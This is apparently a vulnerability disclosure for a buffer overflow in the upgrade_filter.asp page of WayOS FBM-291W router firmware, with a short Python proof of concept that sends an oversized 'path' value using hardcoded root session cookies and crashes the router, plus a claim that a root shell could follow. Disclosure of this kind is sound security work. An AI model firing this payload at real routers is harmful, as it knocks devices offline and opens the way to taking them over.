 # FBM-291W-19.09.11V **buffer overflow**

## Firmware information

- Manufacturer's address: https://www.wayos.com/
- Firmware download address: https://drive.weixin.qq.com/s?k=ANgAJAcRAAcJQcZsqk#/preview?fileId=s.1970324955538648.649217589iNQ_f.677141204X86O

## Affected version

![1](https://gitee.com/blogyoulin/img/raw/master/images/202307061654721.png)

## Vulnerability details

![image-20230706170020409](https://gitee.com/blogyoulin/img/raw/master/images/202307061700543.png)

In /upgrade_filter.asp, There is buffer_overflow

## Poc

```
import requests
from pwn import *

cmd=b"echo success_pwn_it"

payload=b'http://'+b'A'*0x1000

url = "http://192.168.0.1/upgrade_filter.asp"
cookie={"Cookie":"language=zh; userid=root; gw_userid=root,gw_passwd=94B830FE0CCD890946AE1C8318A2BE7B"}
data = {"path": payload}
response = requests.post(url,cookies=cookie,data=data)
#response = requests.post(url,cookies=cookie,data=data)
print(response.text)
```
You can see the router crash, and finally we can write an exp to get a root shell
